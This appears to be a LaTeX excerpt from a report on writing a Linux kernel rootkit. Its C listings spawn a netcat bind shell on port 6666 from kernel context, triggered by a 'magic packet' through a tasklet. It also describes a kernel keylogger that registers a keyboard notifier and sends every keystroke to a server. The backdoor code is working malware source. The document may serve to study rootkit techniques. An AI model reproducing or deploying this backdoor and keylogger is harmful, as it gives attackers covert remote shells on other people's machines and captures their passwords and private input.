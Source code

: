 \documentclass[12pt]{article}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
\begin{lstlisting}[caption=Span netcat in userland., label=backdoor]
void shell_tasklet_fn(unsigned long data){
		static char *envp[] = {
	        "HOME=/",
	        "TERM=linux",
	        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
	char *argv3[] = {"/bin/sh", "-c", "/bin/netcat -l -p 6666 -e /bin/sh &", NULL};
	call_usermodehelper(argv3[0], argv3, envp, UMH_NO_WAIT);

}
\end{lstlisting}

The hard part was not the creation of the process itself but doing it inside of an interrupt handler (reception of magic packet). Many functions can not be called safely (long running functions and so on) inside the context of an interrupt. Because of that we used the tasklet API to defer the execution of \shellcmdinline{call\_usermodehelper} to a save point in time into the kernel context. Listing \ref{tasklet} shows the usage of the tasklet API to start the \shellcmdinline{shell\_tasklet\_fn} in a deferred and safe manner.

 \begin{lstlisting}[caption=Tasklet API., label=tasklet]
DECLARE_TASKLET(shell_tasklet, shell_tasklet_fn, 0);

void start_remote_shell(void){
	tasklet_schedule( &shell_tasklet );
}
 \end{lstlisting}




\subsection{Keylogging}
This section deals with keylogging in the linux kernel. Keylogging describes the process of intercepting all inputkeys from a keyboard. Our rootkit intercepts all keys and sends them to a server. It is possible to activate and deactivate the keylogging function with a magic package, see \ref{sec:magicpackage}. 
To implement a keylogger in the linux kernel you must register a keyboard notifier.

\begin{lstlisting}
	register_keyboard_notifier(&keyboard_notifier);
\end{lstlisting}

The keyboard notifier stores the \lstinline{keyboard_hook} method which will be called on each key press. This function gets a keyboard keycode as input, to filter out the associated character we use two arrays with the mapping for the American keyboard layout. The first one is the mapping without \lstinline{SHIFT} and the second is with \lstinline{SHIFT} pressed.
\end{document}
